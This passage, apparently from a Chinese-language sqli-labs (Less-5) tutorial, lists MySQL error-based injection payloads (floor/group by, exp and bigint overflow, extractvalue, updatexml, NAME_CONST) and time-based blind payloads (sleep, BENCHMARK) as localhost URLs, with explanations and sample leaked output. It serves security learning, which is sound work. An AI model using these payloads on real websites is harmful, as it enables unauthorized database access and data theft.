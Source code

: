**二：报错注入**

```mysql
（1）首先使用报错注入，利用count、floor、group by进行报错
http://127.0.0.1/sqli-labs/Less-5/?id=1' union Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) a from information_schema.columns group by a--+
（2）利用double 数值类型超出范围进行报错注入
http://127.0.0.1/sqli-labs/Less-5/?id=-1' union select (exp(~(select * FROM(SELECT USER())a))),2,3--+
（3）利用bigint 溢出进行报错注入.
http://127.0.0.1/sqli-labs/Less-5/?id=1' union select (!(select * from (select user())x) - ~0),2,3--+
（4）xpath 函数报错注入
http://127.0.0.1/sqli-labs/Less-5/?id=1' and extractvalue(1,concat(0x7e,(select @@version),0x7e))--+
（5）updatexml 函数报错注入
http://127.0.0.1/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select @@version),0x7e),1)--+
（6）利用数据的重复性
http://127.0.0.1/sqli-labs/Less-5/?id=1'union select 1,2,3 from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x --+
```

**updatexml()函数**

+   updatexml（）是一个使用不同的xml标记匹配和替换xml块的函数。
+   作用：改变文档中符合条件的节点的值
+   语法： updatexml（XML\_document，XPath\_string，new\_value） 第一个参数：是string格式，为XML文档对象的名称，文中为Doc 第二个参数：代表路径，Xpath格式的字符串例如//title【@lang】 第三个参数：string格式，替换查找到的符合条件的数据
+   updatexml使用时，当xpath\_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）
+   例如： select \* from test where ide = 1 and (updatexml(1,0x7e,3)); 由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。
+   适用版本: 5.1.5+

```mysql
select updatexml(1,concat(0x7e,(select user()),0x7e),1)
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```

**extractvalue()函数**

+   此函数从目标XML中返回包含所查询值的字符串 语法：extractvalue（XML\_document，xpath\_string） 第一个参数：string格式，为XML文档对象的名称 第二个参数：xpath\_string（xpath格式的字符串） select \* from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
+   extractvalue使用时当xpath\_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）
+   select user,password from users where user\_id=1 and (extractvalue(1,0x7e));
+   由于0x7e就是~不属于xpath语法格式，因此报出xpath语法错误。

```mysql
select extractvalue(1,concat(0x7e,(select user()),0x7e))
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```

**三：延时注入**

```mysql
（1）利用sleep()函数进行注入，当错误的时候会有5 秒的时间延时。
http://127.0.0.1/sqli-labs/Less-5/?id=1'and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+
（2）利用BENCHMARK()进行延时注入
http://127.0.0.1/sqli-labs/Less-5/?id=1'UNION SELECT (IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,ENCODE('MSG','by 5 seconds')),null)),2,3 FROM (select database() as current) as tb1--+
当结果正确的时候，运行ENCODE('MSG','by 5 seconds')操作50000000 次，会占用一段时间。
```
